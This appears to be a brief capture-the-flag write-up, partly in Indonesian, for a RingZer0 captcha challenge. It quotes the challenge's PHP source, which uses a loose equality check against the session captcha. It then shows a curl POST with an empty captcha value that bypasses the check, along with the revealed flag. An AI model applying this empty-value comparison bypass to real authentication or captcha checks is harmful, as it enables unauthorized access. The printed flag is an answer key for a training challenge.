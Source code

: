 <h1>Unreadable captcha</h1>
<h3>Description</h3>
<label>http://challenges.ringzer0ctf.com:10142/</label>
<h3>Solution</h3>
<label>Check comment di view source halaman --> http://challenges.ringzer0team.com:10142/captcha3.txt</label>

```php
<?php
session_start();
if ($_SERVER['REQUEST_METHOD'] === 'POST'){
	if (isset($_POST['captcha'])){
		if ($_POST['captcha'] == $_SESSION['captcha']){
		echo 'Congrats, the flag is XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX' ;  
		} else {
		echo 'You have a wrong captcha. You are not a human. Try again later.';
}
	} else {
   header( 'Location: index.php' ) ;
}

}
else {
   header( 'Location: index.php' ) ;
}
?>
```
<p>Flag didapatkan jika data captcha == session captcha</p>

```console
root@Python:/home/venom/Downloads# curl http://challenges.ringzer0team.com:10142/captcha3.php --data "captcha="
Congrats, the flag is FLAG-siLqVmuuEDDFtz9jqIFIAOQmCF
root@Python:/home/venom/Downloads# 

```
<h3>Flag</h3>
<pre>
FLAG-siLqVmuuEDDFtz9jqIFIAOQmCF
</pre>
